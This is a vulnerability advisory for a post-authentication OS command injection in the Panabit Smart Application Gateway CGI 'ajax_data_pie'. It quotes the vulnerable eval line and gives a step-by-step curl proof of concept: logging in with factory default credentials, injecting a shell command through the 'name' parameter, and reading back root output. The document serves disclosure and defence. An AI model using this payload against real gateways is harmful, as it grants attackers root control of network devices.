

# Panabit Smart Application Gateway

- Vendor: Beijing Panabit Software Co., Ltd. (Panabit)
- Product: Panabit Smart Application Gateway / Internet Behavior Management (PanabitFREE edition; same-source SMB/OEM/MGW series)
- Firmware Version: TANGr7p10 (`PanabitFREE_TANGr7p10_20260817_Linux3`, built 2026-08-17, x86-64)
- Vulnerability Type: Post-authentication OS Command Injection (CWE-95 `eval` re-parsing / CWE-78)

## Overview

In Panabit's "channel rate-limit policy" shell CGI `flowcontrol/ajax_data_pie`, when saving/copying a policy the request parameter `name` is concatenated into a string and handed to **`eval` for a second parse**. At the outer parse `${CGI_name}` is expanded inside double quotes (that layer is safe), but during the second parse by `eval` an injected `"` **closes** the `cmdargs="` quote early, turning the following `;` into a genuine command separator and letting an attacker execute a command as root:

`POST /cgi-bin/flowcontrol/ajax_data_pie?action=edit_data_pie&name=x"; id > /tmp/RPT_C1; #`

The CGI is spawned by httpd as **root**, and the only validation on the sink is a "non-empty" check. A single valid management session is therefore enough for root RCE (because `eval` parses the whole script fragment, full shell syntax is available without needing an `sh -c` wrapper).

## Vulnerability Details

The only input validation is a "non-empty" check (line 126) — no length limit, no character allowlist, no escaping, no quote handling:

```sh
126:    [ "${CGI_name}" = "" ] && retjson 1 "INV_NAME"
```

The sink is in `edit_data_pie()` at line 137 (repeated verbatim in `copy_data_pie()` at line 177):

```sh
135:      while [ ${num} -le ${pri_max_num} ]
136:      do
137:          eval cmdargs="\"name=${CGI_name} pri=${num} maxrate=\$CGI_maxrate_${num} gbw=\$CGI_gbw_${num} desc=\$CGI_desc_${num}\""
138:          errmsg=`${FLOWEYE} policy sethtb ${cmdargs}`
```

Line 137 *looks* quoted, but the defect is handing a string containing user input to `eval` for a full lexical/syntactic re-parse. With `name` = `x"; id > /tmp/RPT_C1; #`, the script actually executed by `eval` becomes:

```sh
cmdargs="name=x"; id > /tmp/RPT_C1; # pri=1 maxrate=$CGI_maxrate_1 gbw=$CGI_gbw_1 desc=$CGI_desc_1"
```

i.e. assignment → execute `id > /tmp/RPT_C1` → `#` comments out the tail (including the original closing quote, so the syntax stays complete).

**Easiest pitfalls to hit**:

1. **"It's already quoted" does not mean safe.** Ordinary `` `$VAR cmd` `` only word-splits the value; `;` `|` `>` inside the value stay inert. But `eval` is a "parse boundary" that re-runs full lexical/syntactic analysis (including quote pairing), so the injected `"` closes the quote and `;` becomes a separator — the root cause is not "a missing pair of quotes" but feeding user input to `eval` for re-parsing (CWE-95).
2. **The loop bound `pri_max_num`.** The injection sits inside the `while` loop at line 135; `pri_max_num` comes from `floweye policy stat`'s `MAX_PRIORITY` (default 4). **If that value is 0 or empty, the loop body never runs and the injection does not happen** — the most common source of a false negative; probe it first with the read-only action `action=get_policy_stat`.
3. **You must pass `action=edit_data_pie`** (or `copy_data_pie`), otherwise the dispatch table's `*)` branch returns `UNKNOW_ACTION`.

## Proof of Concept

**Prerequisite**: set up the environment on the analysis host 192.168.35.137 (symlink `/usr/ramdisk` + `/etc/PG.conf` + `ipe_httpd -C httpd.conf`, port 18443). In this environment `${FLOWEYE}` is a local shim that returns `MAX_PRIORITY=4`; on a real device the same value can be read with the `action=get_policy_stat` request before exploiting.

**Step 1 — log in to obtain a session Cookie** (factory credentials admin/panabit, esctool-encoded 32-hex):

```bash
CK=$(curl -sk -i -X POST https://127.0.0.1:18443/login/user.cgi \
  -d 'action=local_login&palang=ch' \
  -d 'username=590b62dd4a42161f3bcfa16e2baf6b33' \
  -d 'password=ee5c4080bbe094ffb47a84b32b8cabd8' \
  | tr -d '\r' | grep -i '^set-cookie:' | sed 's/^[Ss]et-[Cc]ookie: //; s/;.*//')
echo "$CK"
```

**Step 2 — inject the command** (post-auth):

```bash
curl -sk -b "$CK" --get 'https://127.0.0.1:18443/cgi-bin/flowcontrol/ajax_data_pie' \
  --data-urlencode 'action=edit_data_pie' \
  --data-urlencode 'id=1' --data-urlencode 'rate=100' --data-urlencode 'quota=0' \
  --data-urlencode 'name=x"; id > /tmp/RPT_C1; #'
```

Response: `{ "code": 0, "msg": "操作成功", "data": "" }` (indistinguishable from a legitimate request — this is a blind injection; see Step 3).

**Step 3 — retrieve the command output**:

```bash
cat /tmp/RPT_C1
```



## Impact

An authenticated attacker gains **root command execution**: read/write arbitrary files, change the admin password, plant persistent backdoors, tamper with traffic policy and audit records, and pivot into the internal network. Because `eval` parses the whole script fragment, **full shell syntax is available** (`;` `|` `>` `$()`, backticks, `&&` all take effect without `sh -c`), enabling reverse shells and pipe exfiltration; and the response still returns "operation success", making exploitation stealthy.

## Reproduction Result

Verified against the real `ipe_httpd` (HTTPS 18443), with `name=x"; id > /tmp/RPT_C1; #`; the loop bound `MAX_PRIORITY=4` was supplied by the local `${FLOWEYE}` shim:

```
$ cat /tmp/RPT_C1
uid=0(root) gid=0(root) groups=0(root)

$ ls -l /tmp/RPT_C1
-rw-r--r-- 1 root root 39 /tmp/RPT_C1
```

The injected command executed as root, with output retrievable. Only non-destructive commands (`id`) were used; no reboot/restore/upgrade was invoked.
